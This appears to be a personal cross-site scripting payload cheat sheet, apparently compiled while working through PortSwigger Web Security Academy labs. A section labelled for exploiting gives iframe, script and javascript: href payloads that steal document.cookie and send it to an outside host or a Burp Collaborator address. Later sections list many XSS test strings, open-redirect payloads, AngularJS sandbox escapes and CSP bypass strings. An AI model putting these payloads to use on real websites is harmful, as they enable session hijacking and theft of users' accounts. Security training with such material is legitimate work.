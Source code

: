 
|||||||||||||||||||||||||||||||||||||||||||||||||||||
Cheat-sheet link : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onafterscriptexecute
||||||||||||||||||||||||FOR EXPLOTING|||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101='+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:console.log(document.cookie); location=`http://pip3lee101-64604.portmap.host:64604/?lee101/${location.host}=`+document.cookie;" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

//////////// for cookie stelling HREF
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});


|||||||||||||||||||||FOR TESTING||||||||||||||||||||||||||||||||
HTML HTML HTML entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;
|||||||||||||||||||||||||||||||||||||||||||||

===> OPEN Redirect URL
http://url.com/?lee101=javascript://%250Alert(document.location=document.cookie)

http://url.com/?evil='/><script>alert(1)</script>

for anchor HREF inputs this payload to store <a src="javascript:alert(1)">LIKE website</a> ++++===>
javascript:alert(1)
http://foo?&apos;-alert(1)-&apos;

|||||||||||||||||||||||||||||||||||||||||||||

//// for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>


|||||||||||||||||||||FOR TESTING||||||||||||||||||||||||||||||||
<iframe src="javascript:alert('xss');" >
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
\'-alert(1)//
${alert(1)}
<><img src=1 onerror=alert(1)>
</script><script>alert(1)</script>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>


||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url and id payloads =========>
"></select><img%20src=1%20onerror=alert(1)>
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
/?'accesskey='x'onclick='alert(1)
"><svg><animatetransform onbegin=alert(1)>
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';